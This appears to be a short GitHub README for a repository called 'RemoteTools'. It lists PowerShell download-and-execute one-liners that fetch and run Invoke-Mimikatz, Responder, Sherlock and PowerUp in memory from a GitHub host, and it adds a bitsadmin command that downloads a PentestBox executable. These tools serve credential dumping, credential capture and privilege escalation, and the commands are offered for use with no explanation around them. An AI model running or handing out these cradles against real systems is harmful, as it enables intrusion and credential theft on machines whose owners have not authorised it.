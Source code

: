 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

### Mimikatz

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')

### PentestBox.exe
bitsadmin /transfer myjob /download /priority high https://downloads.sourceforge.net/project/pentestbox/PentestBox-2.3.exe?r=https%3A%2F%2Fsourceforge.net%2Fprojects%2Fpentestbox%2Ffiles%2FPentestBox-2.3.exe%2Fdownload&ts=1544017599 C:\temp\pentestbox.exe
